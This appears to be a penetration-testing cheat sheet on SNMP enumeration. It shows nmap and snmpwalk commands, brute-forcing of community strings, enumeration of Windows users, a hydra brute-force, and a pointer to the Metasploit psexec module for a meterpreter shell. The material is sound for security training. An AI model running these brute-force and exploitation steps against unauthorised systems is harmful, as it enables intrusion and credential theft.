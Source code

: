 # SNMP

**SNMP (Simple Network Management Protocol)**
**Description**: Used to monitor and manage network devices (routers, switches, servers, printers)
**Ports**: UDP port 161 (and port 162 for traps)

<br>

# Enumeration with Nmap and snmpwalk

```shell
nmap -Pn -sV <target_IP>
nmap -sU -p 161 <target_IP>

# The UDP port 161 is open. This information is crucial for our following tasks:

ls /usr/share/nmap/scripts/ | grep snmp
ls -al /usr/share/nmap/scripts/ | grep snmp # -al > All files | Long listing format

nmap -sU -sV -p 161 --script snmp-brute <target_IP>
# As we can see, we found three community names: public, private, and secret
# The script uses the snmpcommunities.lst list for brute-forcing it is located inside /usr/share/nmap/nselib/data/snmpcommunities.lst directory

snmpwalk -v 1 -c public <target_IP>
# This command uses SNMP (Simple Network Management Protocol) to query information from a network device (e.g., router, switch, printer, server). -v  1 is the SNMP version.
# We were able to gather a lot of information via SNMP. However, the output may not be in a human-readable format.

nmap -sU -p 161 --script snmp-* <target_IP> > snmp_output
# The above command would run all the nmap SNMP scripts on the target machine and store its output to the snmp_output file.
ls

nmap -sU -p 161 --script snmp-win32-users <target_IP>
# Attempts to enumerate Windows user accounts through SNMP
# snmp-win32-users: Administrator, DefaultAccount, Guest, WDAGUtilityAccount, admin

nmap -sU -p 161 --script snmp-* <target_IP> > snmp_output
```

- Now, let's run a brute-force attack using these windows users on SMB service.
- Hydra successfully found a valid password for administrator and admin users.

```shell
hydra -P <community_wordlist> <target_IP> snmp
# Performs brute-force attack on SNMP by trying community strings from the provided wordlist.
# Default SNMP port is 161 (UDP), but Hydra handles it automatically.
# Common community strings to try: public, private, manager.
```

- *Run the `psexec` (smb) Metasploit exploit module to gain the meterpreter session using these credentials.*
